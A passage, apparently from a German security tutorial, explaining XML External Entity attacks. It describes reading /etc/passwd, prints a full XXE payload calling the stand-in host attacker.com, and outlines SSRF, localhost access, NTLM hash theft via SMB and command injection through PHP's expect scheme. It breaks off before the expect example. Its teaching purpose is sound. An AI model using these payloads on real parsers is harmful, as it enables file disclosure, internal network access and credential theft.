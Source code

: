 Bei diesem Beispiel wird ein neues Element (*foo*), und als möglicher
Wert für dieses Element die externe Datenquelle /etc/passwd als Referenz
*&xxe* definiert. Anschließend wird dieser Elementtyp auch sofort samt
der Referenz verwendet. Erlaubt ein Server das Parsen dieses
XML-Dokumentes würde er nun diese Datei auslesen, deren Inhalt in das
XML Dokument einfügen und ggf. das ausgefüllte Dokument an den Client
zurückgeben. Somit kann der Angreifer auf eine Datei, auf die er
eigentlich keinen Zugriff besitzen sollte mit den Rechten des
Applikationsservers zugreifen.

Ebenso kann auf eine Netzwerkadresse verwiesen werden:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [  
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >
    ]>
    <foo>&xxe;</foo>

In diesem Beispiel kann der Angreifer den XML-verarbeitenden Server dazu
bringen, mittels HTTP GET auf die übergebene URL
(<http://www.attacker.com/text.txt>) zuzugreifen. Dadurch ergeben sich
mehrere Angriffsmöglichkeiten:

-   Der Angreifer kann den Webserver zum “Besuch” einer Webseite
    bringen, bei diesem Besuch wird zumeist auch die öffentliche
    IP-Adresse des Webservers auf dem besuchten Webserver vermerkt. Bei
    Inhalten die z.B. gegen das Verbotsgesetz verstoßen kann dies
    negative Publicity für den Betreiber des XML-verarbeitenden
    Webservers bewirken.

-   Da der Zugriff vom XML-verarbeitenden Server ausgeht, kann der
    Angreifer einen HTTP GET Request auf interne Server absetzen, die
    ansonsten durch eine initiale Firewall blockiert gewesen wären.

-   Der Angreifer kann ebenso auf *localhost*, sprich dem eigenen
    Server, zugreifen. Häufig werden interne Administrationsprogramme so
    konfiguriert, dass diese nur auf Localhost lauschen (als
    Sicherheitsmassname um remote Angreifern den Zugriff zu
    unterbinden). Im Zuge eines XML External Entity basierten Angriffs
    kann ein Angreifer diesen Schutz aushebeln und direkt auf localhost
    zugreifen.

-   Bei einigen Protokollen (http, smb, cifs) werden automatisch Tokens
    und Credentials vom XML-verarbeitenden Server aus zum Zielserver
    verschickt. Ein Angreifer kann dies z.B. missbrauchen um bei einem
    Windows-basierten Server via SMB NTLM-Hashes zu extrahieren und
    gegen diese offline einen Brute-Force Angriff durchzuführen.

Ein XML External Entity kann auch auf virtuelle Adressen verweisen. So
wird z.B. vom PHP XML Parser als Schema *expect* angeboten. Bei diesem
Schema wird die übergebene URL als Systemkommando ausgeführt und dessen
Ergebnis in das XML-Dokument eingefügt. Ein Angreifer kann dies
missbrauchen um Systemkommands (Command Injection) auszuführen:
